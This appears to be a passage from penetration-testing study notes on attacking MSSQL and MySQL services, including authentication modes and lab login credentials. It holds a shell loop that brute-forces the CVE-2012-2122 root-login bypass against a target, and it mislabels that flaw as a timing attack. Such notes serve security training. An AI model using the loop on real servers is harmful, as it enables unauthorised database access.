 ### Key Information to Extract
- **Database Version** (vulnerability research)
- **Authentication Mode** (Windows vs Mixed)
- **Domain Information** (for privilege escalation)
- **SSL Configuration** (encryption status)
- **Service Account** details

---

## 🔐 Authentication Mechanisms & Bypass

### 1. MSSQL Authentication Types

#### Windows Authentication Mode
- **Integrated Security** with Windows/Active Directory
- **Pre-authenticated** Windows users don't need additional credentials
- **Domain-based** privilege management

#### Mixed Mode Authentication
- **Windows/AD accounts** + **SQL Server accounts**
- **Username/password pairs** maintained within SQL Server
- **Higher attack surface** due to dual authentication

### 2. MySQL Authentication Methods
- **Username/password** authentication
- **Windows authentication** (plugin required)
- **Socket-based** authentication

### 3. Historical Vulnerabilities

#### CVE-2012-2122 - MySQL Timing Attack
```bash
# MySQL 5.6.x authentication bypass
# Repeatedly use same incorrect password
# Timing attack vulnerability in authentication handling

# Manual exploitation concept:
for i in {1..1000}; do
    mysql -u root -pwrongpass -h target 2>/dev/null
done
# Eventually succeeds due to timing vulnerability
```

---

## 🔓 Protocol Specific Attacks

### 1. Database Connection & Authentication

#### MySQL Connection
```bash
# Basic MySQL connection
mysql -u julio -pPassword123 -h 10.129.20.13

# Expected output
Welcome to the MariaDB monitor. Commands end with ; or \g.
Your MySQL connection id is 8
Server version: 8.0.28-0ubuntu0.20.04.3 (Ubuntu)
```
